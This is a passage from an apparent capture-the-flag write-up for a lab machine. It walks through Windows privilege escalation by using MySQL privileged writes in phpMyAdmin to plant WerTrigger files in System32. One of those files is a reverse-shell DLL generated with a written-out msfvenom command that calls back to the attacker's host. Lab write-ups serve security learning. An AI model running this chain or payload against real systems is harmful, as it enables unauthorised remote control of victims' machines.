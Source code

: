 ![Craft214.png](/assets/images/Craft2/Craft214.png){: .responsive-image}


If you click it, you get a pop up in the form of a`javascript:alert('Under Constuction)'`. But this is how the website *and* the DB are managed. You can see that by going to view port 80 of 240.0.0.1 port, by default in the browser. 

![Craft215.png](/assets/images/Craft2/Craft215.png){: .responsive-image}

At this point, it becomes really important the MySQL in this case has the ability to do privileged writes, meaning that we can write into directories out apache user doesn't have permission to write to. Now if we execute from those directories, it doesn't mean that it will execute as admin (I tried to move a reverse shell in System32 and execute it), but there are some additional exploits we can run if we have this capability. [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#wertrigger)has some examples for us here, and we can go with [WerTrigger](https://github.com/sailay1996/WerTrigger). *It looks like there are a couple of other options, but they require us to build something which is iffy when I'm using ARM or to write to a directory which we cannot do using the SQL portal in PHPMyAdmin.* We need to clone the repo, the upload three files into System32, though in our case we're going to replace one of them (phoneinfo.dll) with a reverse shell generated using msfvenom: ` msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kaliIP LPORT=445 -f dll > phoneinfo.dll`. We then upload all of these using the smb server (any method will do of course) and then transfer them using the SQL page from within PHPMyAdmin. 
